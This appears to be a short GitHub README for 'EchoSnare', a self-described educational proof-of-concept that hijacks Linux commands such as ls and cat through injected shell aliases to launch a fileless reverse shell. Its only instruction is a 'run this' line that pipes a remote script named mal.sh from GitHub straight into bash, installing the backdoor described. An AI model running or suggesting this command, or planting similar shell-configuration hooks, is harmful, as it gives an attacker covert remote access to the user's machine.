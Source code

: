 # EchoSnare
EchoSnare is an educational proof-of-concept demonstrating how common Linux commands like ls or cat can be silently hijacked to trigger a fileless reverse shell. Once the victim downloads and runs the tool, it injects a stealthy alias or function into their shell configuration, turning everyday terminal usage into a covert access point.
run this----curl -s https://raw.githubusercontent.com/fariaahmed13/EchoSnare/main/mal.sh | bash
